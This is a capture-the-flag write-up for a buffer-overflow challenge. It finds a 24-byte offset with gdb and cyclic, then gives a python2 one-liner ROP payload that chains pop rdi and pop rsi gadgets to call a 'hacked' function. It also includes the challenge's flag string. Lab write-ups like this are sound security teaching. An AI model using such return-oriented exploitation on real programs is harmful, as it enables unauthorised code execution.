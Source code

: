 # Buffer Overflow

## Description
Can you overflow the buffer to retrieve the flag?
## Solution
The challenge is a simple buffer overflow where we need to overflow the buffer to retrieve the flag.

### Step 1: Analyze the Binary
We start by analyzing the binary using `checksec` to see if there are any protections enabled.

```bash
checksec --file=chall
```
Then we use gdb to find the address of the `hacked` function.


![alt text](img/image.png)
Next, we use the `gdb` to run the program with cyclic and find the offset to the return address.
![alt text](img/image-1.png)

### Step 2: Find the Offset
We use the `cyclic` command to find the offset to the return address which is 24 bytes.
### Analysis of the Binary
After analyzing the binary, in both disassember and decompiler we can fully understand that we have pop rdi and pop rsi instructions from which we can call the `hacked` function with the right arguments.
### Step 3: Create the Payload
<!-- python2 -c 'print "A" * offset + pop_rdi + parm_1 +pop_rsi_r_15 + parm_2 + junk + hacked '
python2 -c 'print "A" * 24 +"\x42\x12\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\x44\x12\x40\x00\x00\x00\x00\x00" + "\xbe\xba\xde\xc0\xbe\xba\xde\xc0" + "\x00\x00\x00\x00\x00\x00\x00\x00" +  "\x86\x11\x40\x00\x00\x00\x00\x00" ' -->

We create the payload with the offset, pop rdi, pop rsi, and the arguments for the `hacked` function. The payload is as follows:

```python
# python2 -c 'print "A" * offset + pop_rdi + parm_1 + pop_rsi_r_15 + parm_2 + junk + hacked '
python2 -c 'print "A" * 24 + "\x42\x12\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\x44\x12\x40\x00\x00\x00\x00\x00" + "\xbe\xba\xde\xc0\xbe\xba\xde\xc0" + "\x00\x00\x00\x00\x00\x00\x00\x00" +  "\x86\x11\x40\x00\x00\x00\x00\x00" '
```
## Step 4: Run the Exploit
We run the exploit with the payload we created. and then make the script to run it remotely. <a href="exploit.py">exploit.py</a>

![alt text](img/image-2.png)

### Step 5: Flag. 
RDX{Buff3r_0v3rFl0w_15_345y_1f_y0u_4r3_4w4r3_0f_ghs5543}
